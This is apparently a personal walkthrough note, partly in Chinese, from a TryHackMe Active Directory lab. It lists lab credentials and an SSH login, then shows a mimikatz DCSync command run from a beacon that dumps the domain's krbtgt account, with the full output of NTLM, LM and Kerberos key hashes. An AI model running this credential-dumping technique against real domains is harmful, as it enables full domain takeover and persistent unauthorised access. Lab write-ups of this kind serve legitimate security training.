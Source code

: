 ```
Your credentials have been generated: Username: louis.cole Password: Password!
```


ssh登录，密码：```tryhackmewouldnotguess1@```
```
ssh Administrator@THMWRK1.za.tryhackme.loc 
```

获取krbtgt哈希
```
beacon> mimikatz lsadump::dcsync /domain:za.tryhackme.loc /user:za\krbtgt
[+] received output:
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server
[DC] 'za\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010202 ( ACCOUNTDISABLE NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 
Password last change : 4/25/2022 7:18:22 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 16f9af38fca3ada405386b3b57366082
    ntlm- 0: 16f9af38fca3ada405386b3b57366082
    lm  - 0: 35c7b671efe40860dc078afd2786c902

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4bf7050f5f09f6d59a8699081d9ed432

* Primary:Kerberos-Newer-Keys *
    Default Salt : ZA.TRYHACKME.LOCkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 9b52d4ffae227e50025574e4347783ee4f4f6c01c110b1ad4c715d0c977558ca
      aes128_hmac       (4096) : c893fd72ddf7fe2ee545f52b8368602f
      des_cbc_md5       (4096) : d904d37f8ab6fed6

* Primary:Kerberos *
    Default Salt : ZA.TRYHACKME.LOCkrbtgt
    Credentials
      des_cbc_md5       : d904d37f8ab6fed6

* Packages *
    NTLM-Strong-NTOWF
```
